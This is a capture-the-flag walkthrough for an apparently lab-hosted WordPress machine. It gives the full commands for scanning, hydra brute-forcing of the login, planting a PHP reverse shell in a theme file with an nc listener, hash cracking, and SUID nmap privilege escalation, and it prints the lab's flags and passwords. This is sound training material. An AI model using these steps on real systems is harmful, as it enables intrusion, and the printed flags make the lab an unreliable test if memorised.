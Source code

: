 ## **Scanning**
>	- Perform `nmap` scan on target machine using these options:
>		- `-sC` for the default script.
>		- `-sV` for the version type of ports.
>		- `-oA` to save the output with 3 standard formats.![](nmap-output.png)
```
nmap -sC -sV -oA scans/initial 10.10.231.179
```
>	- Found port `80`running a website.

## **Examining website**
>	- Use `gobuster` or `dirb` to retrieve all open directories and files.
```
gobuster dir -u http://10.10.231.179 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q -o scans/dirb-small.txt
```
>	- Found  `/sitemap`, nothing useful.
>	- Found `/intro`, shows a video.
>	- Found `/wp-login`, WordPress login page, *INTERESTING!*
>	- Found `/license`, nothing useful.
>	- Found `/readme`, nothing useful.
>	- Found `http://10.10.231.179/robots`, which shows us 2 files, `fsocity.dic` and `key-1-of-3.txt`.
>	- `curl`ing this returns the *first key*.![](exam_1.png)

## **Looting**
>	- Expanding on `/wp-login` finding, we can use `hydra` to brute-force the login.
>	- Get the `name` of the input field for both the `username` and `password`.
```
hydra -L fsocity.dic -p test 10.10.231.179 http-post-form "/wp-login:log=^USER^&pwd=^PWD^:Invalid username" -t 30

```
>		- `-L` specifies the login usernames file.
>		- `-p` specifies the static password to use.
>		- `http-post-form` for the HTTP form for creds, and afterwards comes the parameters used followed by what to expect a `failed` attempt looks like which appears on the website.
>		- `-t` for threading.![](looting_1.png)
>	- Expand upon the found usernames.
```
hydra -l Elliot -P fsocity.dic 10.10.231.179 http-post-form "/wp-login:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```
>		- `-l` specifies the static username to use.
>		- `-P` specifies the password file.
>	- Hydra takes a lot of time, try reversing the list and removing duplicates.
>	- Alternatives are Burpsuite.
>	- Password found `ER28-0652` for user `Elliot`
## **Reverse Shell**
>	- Found in `/appearance/editor` multiple pages that can be embedded with a reverse shell script.
>	- Used `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` inside the `archive.php` file, changing the `IP` to your `VPN IP` and the port to any port that you'll be listening on (`53` used in my case).
## **Listener**
>	- Use `rlwrap nc -lvnp 53` to listen on port `53` waiting for the shell.
>		- `rlwrap` give us some optional auto-completion and other benefits.
>		- `-l` for listening mode for inbound connects.
>		- `-v` for verbose.
>		- `-n` for numeric only IPs no DNS.
>		- `-p` for port number.
>	- Visit `/wp-content/themes/twentyfifteen/archive.php` to trigger the shell.![](listener_1.png)

## **Exploring Machine**
>	- After gaining the shell, used `ls` to view different directories.
>	- Found the *Second Key* in `/home/robot` directory. ![](key2-found.png)
>	- Turns out, no access to view the key.![](key-no-access.png)
>	- `password.raw-md5` seems interesting.

## **John The Ripper**
>	- Using `hash-identifier` we can get the hash type.![](hash-type.png)
>	- Using `john` to crack the hash.
```
john md5-hash --wordlist=../fsocity.dic --format=Raw-MD5
```
>	- The user password is `abcdefghijklmnopqrstuvwxyz`.
## **Upgrading the Shell**
>	- The `su` command can't be run from a terminal that's not *interactive*.
>	- Upgrade the terminal using `python` to spawn a shell of our choice.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
>	- Then switch to the `robot` user with `su robot` and use the password found.![](robot-user.png)
>	- The *Second Key* can then be accessed, the value is `822c73956184f694993bede3eb39f959`

## **Privilege Escalation**
>	- Searching for file that has `SUID` bit set using `find / -perm -u=s -type f 2>/dev/null`
>		- `SUID` sets you as a `root` user or another user when you're running the command.![](suid.png)
>	- Searching in `https://gtfobins.github.io/` with the commands for `sudo` to gain a root shell.
>	- `nmap` is the command to be used.
```
nmap --interactive
!sh
```
>	![](root-user.png)
>	- *Third Key* found, with value `04787ddef27c3dee1ee161b21670b4e4`.![](key3-found.png)
